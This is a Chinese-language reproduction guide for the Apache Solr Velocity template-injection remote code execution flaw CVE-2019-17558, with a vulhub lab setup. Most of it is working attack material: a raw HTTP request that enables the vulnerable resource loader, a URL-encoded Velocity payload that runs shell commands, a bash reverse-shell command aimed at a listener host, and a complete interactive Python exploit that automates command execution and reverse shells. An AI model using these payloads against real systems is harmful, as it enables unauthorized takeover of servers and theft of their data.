 # Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述

2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把`params.resource.loader.enabled`设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本

```
Apache Solr 5.x 至 8.2.0
```

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

打开后获取 Core 信息

![image-20220209120331157](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091204352.png)

得知 test 这个 Core 存在

访问 http://xxx.xxx.xxx.xxx:8983/solr/test/config 正常

![image-20220209120359467](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091203542.png)



访问Core的config配置信息时，通过POST请求把{% em type="red" %}params.resource.loader.enabled{% endem %}设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

**设置params.resource.loader.enabled为True**

![image-20220209120442993](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091204075.png)

```shell
POST /solr/test/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
Content-Length: 259

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

**命令执行**

再使用POC造成命令执行

![image-20220209120503629](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091205706.png)

```plain
http://xxx.xxx.xxx.xxx:8983/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```plain
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1

POC需要Urlencoding进行编码才能绕过
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 5.0.0 - 8.3.1      \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-17558.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)


def POC_2(target_url, core_name):
    open_params = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vnul_url = target_url + "/solr/" + core_name + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core_name, IP, POST):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, POST)
    vnul_url = target_url + "/solr/" + core_name + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)

if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name   = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core_name, IP, PORT)
        else:
            POC_3(target_url, core_name, cmd)
```

![image-20220209120525062](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091205136.png)